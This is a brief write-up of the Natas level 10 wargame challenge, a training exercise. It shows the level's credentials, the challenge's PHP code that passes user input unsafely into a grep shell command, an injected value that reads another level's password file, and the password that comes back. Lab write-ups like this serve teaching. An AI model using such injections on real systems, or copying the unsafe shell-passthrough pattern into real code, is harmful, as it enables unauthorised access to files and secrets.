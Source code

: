 # Natas Level 10

## 🧪 Credentials

- **URL**: `http://natas10.natas.labs.overthewire.org`
- **Username**: `natas10`
- **Password**: `t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`

---

## 🖥️ Steps

1. Login to the website.
2. let's see the source. here we see it filter certain characters, but still there is plenty of ways to go around this. if we submit `grep -i . /etc/natas_webpass/natas11 #` this should work.
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
3. submit this `. /etc/natas_webpass/natas11 #` then it'll give us the pass
```
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
```
---
